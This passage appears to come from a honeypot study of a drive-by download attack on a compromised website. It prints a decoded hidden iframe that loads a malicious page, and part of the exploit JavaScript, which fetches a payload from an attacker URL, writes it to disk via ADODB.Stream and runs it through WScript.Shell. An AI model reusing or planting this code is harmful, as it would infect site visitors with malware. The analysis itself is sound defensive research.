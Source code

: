 Figure 9 - Obfuscated JavaScript

Because the JavaScript code needs to be converted to clear text in order “import” the exploit, the decryption routine is included within the JavaScript code. This makes it easy to extract the clear text, which is shown in Figure 10. It is a simple hidden iframe that includes the page out.php from the server crunet.biz. From there, we observed several redirects and more obfuscation until we were able to view the actual exploit code.

<iframe src='https://crunet.biz/out.php' width='1' height='1' style='visibility:
 hidden;'></iframe>

Figure 10 - Clear value of obfuscated JavaScript

The obfuscation of the iframe code is one step we encountered frequently, targeted to hide the attack from static analysis tools, such as network based intrusion detection systems. On the Keith Jarrett site, we encountered an additional mechanism that was probably designed to evade detection. Our client honeypot was attacked by www.keithjarrett.it during the initial crawl. However, upon subsequent visits to the same URL, the exploit only triggered on occasion. We suspect that this is a measure to evade client honeypots like ours.

The exploit code itself (portions are shown in Figure 11 and Figure 12) contains some interesting aspects we would like to highlight. The attack code is a multi-step attack that first obtains the payload via the XMLHTTP object, writes it to disk via the ADODB (BID: 10514) object and then executes it with the WScript.Shell or Shell.Application object (BID: 10652). This attack path was disabled by Microsoft in 2004 and is not going to be successful unless an unpatched version of Internet Explorer 6 SP2 is used. The attack follows these three stages with each stage using error handling to increase the chances of the attack succeeding (for example, the usage of the Shell.Application object in case the WScript.Shell object fails).
```
function MDAC() {
 var t = new Array('{BD96C556-65A3-11D0-983A-00C04FC29E30}', '{BD96C556-65A3-11D0-983A-00C04FC29E36}', '{AB9BCEDD-EC7E-47E1-9322-D4A210617116}', '{0006F033-0000-0000-C000-000000000046}', '{0006F03A-0000-0000-C000-000000000046}', '{6e32070a-766d-4ee6-879c-dc1fa91d2fc3}', '{6414512B-B978-451D-A0D8-FCFDF33E833C}', '{7F5B7F63-F06F-4331-8A26-339E03C0AE3D}', '{06723E09-F4C2-43c8-8358-09FCD1DB0766}', '{639F725F-1B2D-4831-A9FD-874847682010}', '{BA018599-1DB3-44f9-83B4-461454C84BF8}', '{D0C07D56-7C69-43F1-B4A0-25F5A11FAB19}', '{E8CCCDDF-CA28-496b-B050-6C07C962476B}', null);
 var v = new Array(null, null, null);
 var i = 0;
 var n = 0;
 var ret = 0;
 var urlRealExe = 'http://crunet.biz/pack/file.php';
 while (t\[i\] && (! v\[0\] || ! v\[1\] || ! v\[2\]) ) {
 var a = null;
 try {
 a = document.createElement("object");
 a.setAttribute("classid", "clsid:" + t\[i\].substring(1, t\[i\].length - 1));
 } catch(e) { a = null; }
 if (a) {
 if (! v\[0\]) {
 v\[0\] = CreateObject(a, "msxml2.XMLHTTP");
 if (! v\[0\]) v\[0\] = CreateObject(a, "Microsoft.XMLHTTP");
 if (! v\[0\]) v\[0\] = CreateObject(a, "MSXML2.ServerXMLHTTP");
 }
 if (! v\[1\]) {
 v\[1\] = CreateObject(a, "ADODB.Stream");
 }
 if (! v\[2\]) {
 v\[2\] = CreateObject(a, "WScript.Shell");
 if (! v\[2\]) {
 v\[2\] = CreateObject(a, "Shell.Application");
 if (v\[2\]) n= 1;
 }
 }
 }
 i++;
 }
```